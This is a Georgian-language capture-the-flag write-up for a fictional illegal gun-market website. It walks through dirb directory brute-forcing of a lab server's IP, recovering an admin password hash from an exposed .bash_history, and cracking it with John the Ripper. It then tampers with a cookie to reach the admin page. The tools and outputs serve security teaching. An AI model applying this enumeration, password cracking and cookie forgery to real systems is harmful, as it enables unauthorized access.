




# პირობა 
### კრიმინალურმა პოლიციამ აღმოაჩინა ვებ გვერდი საიდანაც შესაძლებელია იარაღის შეძენა უკანონოდ. თქვენი მიზანია განახორციელოთ შეტევა აღნიშნულ ვებგვერდზე და აღმოაჩინოთ კოდური გასაღები.

# ამოხსნის სარჩევი
## [Question 1](#question_1):
#### 1. [ვებ-გვერდის მიმოხილვა](#overview)  
#### 2. [ვებ-გვერდის ენუმერაცია (dirb)](#dirb)
#### 3. [.bash_history-ის მიმოხილვა](#.bash_history)
#### 4. [catf/admin გვერდის მიმოხილვა](#ctf-admin-page)
#### 5. [პაროლის დაკრეკვა (John The Ripper)](#john)
#### 6. [I ფლეგი](#flag_1)

# ამოხსნა

<a name="question_1"/>

კითხვა 1: პირველი ნაწილის გასაღები


<a name="overview"/>

1. პირველრიგში, შევიდეთ მოცემულ ფეიჯზე. შესვლისას გვხვდება ჩვეულებრივი საიტი, რომელიც ბევრს არაფერს გვეუბნება. არც მისი ინსპექტით გახსნის შემდეგ ვხვდებით ბევრ რამეს.
 

<a name="dirb"/>

2. ვინაიდან მოცემული ფეიჯი არანაირ ინფორმაციას არ გვაძლევს, bruteforce-ით გადავუაროთ სახელებს და შევეცადოთ ვიპოვოთ ამ სერვერზე არსებული ფაილები თუ დირექტორიები.
ამისთვის გამოვიყენებთ ხელსაწყოს სახელად dirb:
    ```bash
    dirb <url_base> [<wordlist_file(s)>] [options]

    url_base - მისამართი რომელზეც გვინდა bruteforce (*)
    [<wordlist_file(s)>] - მისამართი ფაილზე, რომელიც შეიცავს სიტვებს. dirb გადაუყვება და ამ სიტყვების გამოყენებით შეეცდება იპოვოს დამალული მისამართი სერვერზე.
    [options] - სხვადასხვა ფლეგები (შეგიძლია დოკუმენტაციაში წაიკIთხოთ დეტალურად)
    ```
    გავუშვათ ბრძანება და ვნახოთ შედეგი:
    ```bash
    root@kali:~$ dirb http://185.212.254.50/

    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Sat May 30 16:44:59 2020
    URL_BASE: http://185.212.254.50/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612                                                          

    ---- Scanning URL: http://185.212.254.50/ ----
    + http://185.212.254.50/.bash_history (CODE:200|SIZE:1311)                     
    + http://185.212.254.50/index.html (CODE:200|SIZE:200)                         
    + http://185.212.254.50/server-status (CODE:403|SIZE:302)                      
    ==> DIRECTORY: http://185.212.254.50/wp/                                       
                                                                                
    ---- Entering directory: http://185.212.254.50/wp/ ----
    ==> DIRECTORY: http://185.212.254.50/wp/wordpress/
    
    # აქედან ყველა დირექტორია/ფაილი ვორდპრესს ეხებოდა, ამიტომაც აქ აღარ გამოვიტან.
    # სრული ლოგის სანახავად გადადით dirb.log ფაილზე 

    -----------------
    END_TIME: Sat May 30 17:08:25 2020
    DOWNLOADED: 202928 - FOUND: 16             
                                                            
    ```
    სრული ლოგი შეგიძლიათ იხილოთ აქ --> [dirb.log](dirb.log)

    dirb-ის აუთფუთიდან შეგვიძლია დავასკვნათ, რომ საიტი აწყობილია wordpress-ზე და სხვადასხვა ლინკებზე გადასასვლელად გვჭირდება აუთენთიფიკაცია, მაგრამ სანამ გადავიდოდეთ აუთენთიფიკაციის გატეხვაზე დავაკვირდეთ რომ dirb ბრძანებამ აღმოაჩინა კიდევ ერთი ფაილი: `.bash_history` (ეს ფაილი გამოიყენება ტერმინალში აკრეფილი ბრძანებების შესანახად)

    გავხსნათ ნაპოვნი ფაილი და გადავავლოთ თვალი (უბრალოდ შევიდეთ შემდეგ მისამართზე __185.212.254.50/.bash_history__ ):
    
    ფაილი შეგიძლია იხილოთ აქ დაკლიკებით --> [.bash_history](.bash_history)

<a name=".bash_history"/>

3. [.bash_history](.bash_history) ფაილის გახსნისას ვხედავთ, რომ სერვერი აწეულია apache2-ზე. 
    აქ ჩვენთვის საინტერესო არის შემდეგი ორი ხაზი:
    * `mkdir /var/www/html/ctf/admin` (ctf არის capture the flag-ის აბრივიატურა, შესაბამისად ჩვენთვის გამოსადეგი რამ უნდა იყოს)
    * `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`

<a name="ctf-admin-page"/>

4. გადავიდეთ ctf/admin ფეიჯზე:
    
    როგორც ვხედავთ, გვჭირდება იუზერნეიმი და პაროლი, ასევე გვეუბნება რომ გამოვიყენოთ [John The Ripper](https://www.openwall.com/john/). ეს არის ხელსაწყო, რომელიც ჰეშების plain-text-ში აღდგენაში გამოიყენება. 

<a name="john"/>

5. როგორც ctf/admin ფეიჯზე ვნახეთ, გვჭირდება იუზერნეიმი და პაროლი. შეგვიძლია ასევე დავუბრუნდეთ [.bash_history](.bash_history) ფაილს სადაც ვიპოვეთ ეს ჩანაწერი `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`. როგორც ვხედავთ შენახული მომხმარებლის იუზერნეიმი არის 'admin', პაროლი კი დაჰეშილი სახით ინახება, სწორედ აქ გამოგვადგება ჩვენი ჯონი.
    ```bash
    john <hash.txt> --wordlist=<pass.txt>

    hash.txt - ფაილი რომელიც შეიცავს თქვენს ჰეშ(ებ)ს
                ფაილში შეიძლება შეინახოთ ან მარტო ჰეშები (ყოველი ახალი ჰეში ახალ ხაზზე) ან იუზერნეიმი და ჰეში ოწერტილით გამოყოფილი [Username:Hash]
    pass.txt - ფაილი რომელიც შეიცავს იმ სიტყვების სიას, რომლებიც უნდა შევამოწმოთ 
    ```

    * როგორც ვნახეთ უნდა მოვამზადოთ ჰეშების სია. ჩვენს შემთხვევაში მარტო ერთი ჰეშია. ავიღოთ ის ბრძანება, რომელიც სერვერზე გაუშვეს და გავუშვათ ჩვენც
    `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`
    ამ ბრძანების შემდეგ 'passwords' ფაილში ჩაიწერება 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.'
    შეგიძლიათ თქვენით შექმნათ ახალი ფაილი და ხელით ჩაწეროთ ეს კონტენტი.
    შექმნილი ფაილი შეგიძლიათ იხილოთ აქ --> [passwords](passwords)

    * გვჭირდება ასევე ფაილი, რომელიც შეიცავს პაროლებს. ასეთი სიისთვის ყველაზე კარგი ვარიანტია [rockyou.txt](https://www.scrapmaker.com/download/data/wordlists/dictionaries/rockyou.txt). (ფაილის სიდიდის გამო, მხოლოდ დაზიპული ფაილის მოწოდება შემიძლია: [rockyou.txt.gz](../../utils/wordlists/rockyou.txt.gz) ამოაარქივეთ და ჩვეულებრივად შეძლებთ გამოყენებას)

    ავაწყოთ და გავუშვათ ჩვენი ბრძანება
    ```bash
    john Pentest/GunMarket/passwords --wordlist='utils/wordlists/rockyou.txt'
    ```

    აუთფუთი:
    ```bash
    john Pentest/GunMarket/passwords --wordlist='utils/wordlists/rockyou.txt'
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    admin123         (admin)
    1g 0:00:00:01 DONE (2020-05-31 07:13) 0.9009g/s 81059p/s 81059c/s 81059C/s agape1..a00000
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```

    `admin123         (admin)` <-- ეს ხაზი გვეუბნება რომ `admin` იუზერნეიმის მქონე მომხმარებლის დაჰეშილი პაროლი იყო `admin123`.

    P.S. გაშვებულმა ბრძანებამ შეიძლება შემდეგი აუთფუთი დაგიბრუნოთ
    ```bash
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
    No password hashes left to crack (see FAQ)
    ```
    `No password hashes left to crack (see FAQ)` ამით ვხვდებით რომ ყველა პაროლი გაშიფრულია, მაგრამ აუთფუთში არაფერს არ გვიჩვენებს. ჯონი ჭკვიანი როჟაა და იმახსოვრებს იმ ჰეშებს, რომლებიც აქამდე გაშიფრა. ეს მესიჯიც მაგას ნიშნავს. ადრე გაშიფრული პაროლების გასაშიფრად გამოვიყენოთ `--show` ფლეგი, რომელსაც გადაეცემა გასაშიფრი ჰეშების სია. გავუშვათ შემდეგი ბრძანება:
    ```bash
    john --show Pentest/GunMarket/passwords 
    ```
    აუთფუთი:
    ```bash
    admin:admin123

    1 password hash cracked, 0 left
    ```

<a name="flag_1"/>

6. დავუბრუნდეთ ctf/admin ფეიჯს და შევიყვანოთ შემდეგი მონაცემები
    ```bash
    User Name: admin
    Password: admin123
    ```
    გადაგვიყვანა შემდეგ ფეიჯზე:
    
    როგორც ვხედავთ მოცემულია [Cookie Monster](https://en.wikipedia.org/wiki/Cookie_Monster)-ის სურათი. ეს ერთგვარ მინიშნებად შეგვიძლია მივიღოთ და ჩავიხედოთ cookie-ებში. (inspect -> storage -> Cookies -> http://185.212.254.50)
    
    username-ს გრაფაში value-დ უწერია guest_user. აქ შეგვიძლია ნებისმიერი რამ ჩავწეროთ და ფეიჯის დარეფრეშების შემდეგ გამოჩნდება ჩვენი ჩაწერილი ველიუ. იუზერნებიმი იყო admin. ფეიჯის თაითლიც არის admin_page. შეიძლება ვივარაუდოთ, რომ value უნდა იყოს admin. შევცვალოთ დავარეფრეშოთ და ვნახოთ რა მოხდება:
    
    გილოცავთ! თქვენ იპოვეთ პირველი flag. ასევე მივიღეთ მინიშნება : 'Check our wordpress site for secret staff /wp/wordpress/ !!!'
